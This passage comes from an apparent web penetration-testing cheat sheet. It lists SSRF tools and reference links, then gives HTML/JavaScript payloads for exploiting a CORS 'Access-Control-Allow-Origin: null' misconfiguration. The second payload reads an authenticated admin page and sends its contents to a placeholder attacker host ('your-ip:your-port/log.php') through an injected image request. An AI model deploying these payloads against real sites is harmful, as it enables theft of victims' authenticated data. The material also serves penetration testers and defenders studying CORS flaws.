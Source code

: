 -> zabbix.py  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/ssrf_protocol_smuggling/zabbix.py

### Tool's
-> Gopherus  
https://github.com/tarunkant/Gopherus
  
#### Docs for SSRF
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf  
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

## Null Origin Exploitation
-> Identify - Response
```
HTTP/1.1 200 OK  
...  
Access-Control-Allow-Origin: null  
Access-Control-Allow-Credentials: true
```

### Common
-> nullorigin.html  
```
<html><head>
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == XMLHttpRequest.DONE) {
	var r = xhr.responseText;
	alert(r)
	}
}
xhr.open('GET', 'http://site.com/admin.php', true);
xhr.withCredentials = true;
xhr.send(null);
</script>
</head></html>

``` 

### Null Origin Exploitation Exfiltrate via url per server
-> nullorigin2.html
```
<html><head>
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == XMLHttpRequest.DONE) {
 		var r = xhr.responseText;
		var d = r.split('>')[1].split('<')[0]
		function exfil() {
			document.write('<img src="http://your-ip:your-port/log.php?data=' + d + '"/>');
	}
	exfil();
	}
}
xhr.open('GET', 'http://site.com/admin.php', true);
xhr.withCredentials = true;
xhr.send(null);
</script>
</head></html>
```